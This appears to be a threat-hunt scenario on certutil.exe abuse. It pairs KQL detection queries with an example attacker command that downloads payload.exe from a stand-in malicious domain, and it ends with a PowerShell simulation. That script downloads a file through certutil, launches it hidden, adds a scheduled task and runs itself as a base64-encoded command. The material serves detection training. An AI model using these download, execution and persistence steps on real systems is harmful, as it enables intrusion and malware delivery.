 # Threat Hunt Scenario: Suspicious Use of Certutil for Payload Download

## 🔍 Threat Event: Suspicious Use of Certutil
**Description:**  
Adversaries used `certutil.exe`, a known Living Off the Land Binary (LOLBIN), to download and execute a suspicious payload.

---

## 🎯 Reason for Threat Hunt

- **Trigger:**  
  Security team received an alert from the firewall indicating an outbound connection to a known malware-hosting domain.

- **Context:**  
  Certutil abuse for downloading files has been highlighted in recent cybersecurity advisories and APT threat intelligence feeds.  
  (Reference: [MITRE ATT&CK T1105 – Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/))

- **Directive:**  
  Management requested a proactive hunt for any endpoints using LOLBINs like `certutil.exe` for unauthorized downloads.

---

## 🧪 Steps Taken by the "Bad Actor" – Logs & IoCs

1. **Command Shell Opened (CMD/PowerShell)**
2. **Payload Downloaded Using Certutil:**

```bash
certutil -urlcache -split -f http://malicious-domain.com/payload.exe C:\Users\Public\payload.exe
```
3. **Payload Executed:**

```vbnet
Copy
Edit
C:\Users\Public\payload.exe
```
4. **Persistence Established:**
Created a malicious scheduled task for persistence.

5. **C2 Connection Established:**
Connected to a remote Command and Control server on port 443.

🧩 Artifacts & Hunting Tables

| Artifact Table              | Purpose                                         |
| --------------------------- | ----------------------------------------------- |
| `DeviceProcessEvents`       | Detect certutil execution and payload execution |
| `DeviceFileEvents`          | Confirm payload was written to disk             |
| `DeviceNetworkEvents`       | Detect outbound connections to C2 servers       |
| `DeviceScheduledTaskEvents` | Identify malicious scheduled task persistence   |

📘 Related KQL Queries
🔍 Certutil Abuse for File Download
```kql
DeviceProcessEvents
| where FileName == "certutil.exe"
| where ProcessCommandLine has_all("http", "-urlcache", "-split", "-f")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessCommandLine
```
📄 Payload Dropped to Disk
```kql
DeviceFileEvents
| where FolderPath contains "C:\\Users\\Public"
| where FileName endswith ".exe"
| where InitiatingProcessFileName == "certutil.exe"
| project Timestamp, DeviceName, FileName, FolderPath, InitiatingProcessCommandLine
```
🚀 Payload Execution
```kql
DeviceProcessEvents
| where FolderPath contains "C:\\Users\\Public"
| where FileName endswith ".exe"
| where InitiatingProcessFileName != "certutil.exe"
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```
🌐 Network Connections from Payload
```kql
DeviceNetworkEvents
| where InitiatingProcessFileName endswith ".exe"
| where InitiatingProcessFolderPath contains "C:\\Users\\Public"
| where RemotePort == 443
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteIP, RemoteUrl
```
🛠 Persistence via Scheduled Task
```kql
DeviceScheduledTaskEvents
| where TaskAction contains "payload.exe"
| project Timestamp, DeviceName, TaskName, TaskAction, InitiatingProcessFileName
```
📎 Notes
Monitor use of certutil.exe with suspicious flags (-urlcache, -split, -f).

Prioritize endpoints with public folder .exe executions followed by outbound traffic.

✅ Hunting Goal: Identify and contain endpoints abusing certutil to fetch and launch malicious executables.

## 👤 Created By

* **Author**: Aduragbemi
* **LinkedIn**: [Aduragbemi Oladapo](https://www.linkedin.com/in/aduragbemioladapo/)
* **Date**: June 26, 2025

---

## ✅ Validated By

* **Reviewer**: *TBD*
* **Contact**: *TBD*
* **Date**: *TBD*

---
💻 Simulation Script (Safe)
```Powershell
# Define the entire PowerShell logic as a script block
$scriptBlock = @'
# Create a simulated payload URL and destination path
$payloadUrl = "https://hel1-speed.hetzner.com/100MB.bin"
$payloadPath = "$env:PUBLIC\payload.exe"

# Use certutil.exe to download the "payload"
Write-Host "[+] Downloading file using certutil..."
Start-Process -FilePath "certutil.exe" -ArgumentList "-urlcache -split -f $payloadUrl `"$payloadPath`"" -Wait

# Confirm file exists
if (Test-Path $payloadPath) {
    Write-Host "[+] Payload downloaded successfully: $payloadPath"
} else {
    Write-Host "[!] Failed to download payload."
    exit
}

# Simulate execution of the payload
Write-Host "[+] Simulating payload execution..."
Start-Process -FilePath "$payloadPath" -WindowStyle Hidden

# Simulate persistence using a scheduled task
$taskName = "SimulatedPayloadTask"
Write-Host "[+] Creating scheduled task for persistence..."
schtasks /create /tn $taskName /tr "$payloadPath" /sc minute /mo 30 /f

# Optional: Wait and then clean up
Start-Sleep -Seconds 5
Write-Host "[+] Cleaning up (Optional)..."
schtasks /delete /tn $taskName /f
Remove-Item $payloadPath -Force

Write-Host "[+] Simulation completed."
'@

# Encode the script block for execution
$encodedScript = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($scriptBlock))

# Launch powershell.exe with the encoded command
Start-Process powershell.exe -ArgumentList "-EncodedCommand $encodedScript" -Wait


```

## 📅 Revision History

| Version | Changes       | Date          | Modified By                |
| ------- | ------------- | ------------- | -------------------------- |
| 1.0     | Initial Draft | June 26, 2025 | Aduragbemi Oladapo |

---

